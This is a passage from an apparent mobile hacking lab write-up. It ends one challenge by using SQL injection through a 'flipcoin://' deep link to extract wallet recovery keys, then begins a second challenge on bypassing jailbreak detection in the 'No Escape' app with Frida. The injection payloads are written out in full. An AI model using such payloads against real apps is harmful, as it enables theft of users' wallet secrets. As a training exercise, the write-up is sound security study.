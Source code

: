 Lastly, let’s get both recovery keys:

```bash
# UNION SELECT 0,(SELECT recovery_key FROM wallet),3,4,'a' LIMIT 1;--
# UNION SELECT 0,(SELECT recovery_key FROM wallet WHERE id=2),3,4,'a' LIMIT 1;
uiopen "flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0003%20UNION%20SELECT%200,(SELECT%20recovery_key%20FROM%20wallet),3,4,'a'%20LIMIT%201;--"
uiopen "flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0003%20UNION%20SELECT%200,(SELECT%20recovery_key%20FROM%20wallet%20WHERE%20id=2),3,4,'a'%20LIMIT%201;--"
```

![Untitled.png](/assets/MHL/Untitled.png)

## **No Escape**

**Description**

> The challenge centers around a fictitious app called No Escape, designed with robust jailbreak detection mechanisms. Your mission is to bypass these mechanisms and gain full access to the app's functionalities using Frida.

**Objective**

> Your task is to evade the jailbreak detection implemented in the No Escape app to execute arbitrary code and access all app features.

App package Name: `com.mobilehackinglab.No-Escape` 

Let’s open our app, and we got the following message as expected:
